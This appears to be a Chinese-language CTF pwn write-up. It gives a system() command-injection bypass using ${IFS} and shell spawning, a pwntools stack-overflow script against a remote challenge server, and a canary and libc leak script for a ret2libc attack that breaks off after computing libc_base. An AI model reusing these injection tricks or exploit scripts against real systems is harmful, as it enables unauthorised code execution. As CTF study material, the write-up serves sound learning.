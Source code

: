 和上一题不一样的地方是就在于这个system函数，nc连上之后是不能直接cat flag.txt的，因为在这函数里空格会被转义，因此无法被识别，最直接得办法可以使用 cat${IFS}/flag.txt，再或者就是nc连接后直接输入/bin/sh或sh就可以直接getshell，之后cat /flag.txt 获得flag

## overflow

```
from pwn import *
#p=process('./a')
p=remote('81.69.247.186',8809)
payload = b'a'*18+p64(0x4006CE)
p.sendline(payload)
p.interactive()
```

## Math

i==15时，可以读入一个int，作为长度，传入gift

![img](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209051244533.jpg?x-oss-process=hzy)

gift可以泄露canary，程序基址和libc基址

![img](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209051244553.jpg?x-oss-process=hzy)

然后就是ret2libc

```
# -*- coding:utf-8 -*-
from pwn import *
context(log_level="debug")

#io=process("./BasicMath")
io=remote("81.69.247.186",8803)
elf=ELF("./chall")
libc=ELF("./libc-2.27.so")

#io_base=io.libs()[io.cwd+io.argv[0].strip(b".").decode()]
#offset=0x1685
#gdb.attach(io,"b * "+hex(io_base+offset))
#pause()

for i in range(15):
	io.recvuntil(b"] ")
	num1=int(io.recvuntil(b" +")[:-2],10)
	num2=int(io.recvuntil(b" =")[:-2],10)
	res=num1+num2
	io.sendlineafter(b"? ",str(res))

io.sendlineafter(b"= ? ",str(0x0000000100000050))

canary=u64(io.recv(8))
print("canary=="+hex(canary))

rbp=u64(io.recv(8))
print("rbp=="+hex(rbp))

main_addr=u64(io.recv(8))-323
proc_base=main_addr-elf.sym["main"]
print("proc_base=="+hex(proc_base))

io.recv(40)

__libc_start_main=u64(io.recv(8))-231
libc_base=__libc_start_main-libc.sym["__libc_start_main"]
print("libc_base=="+hex(libc_base))
```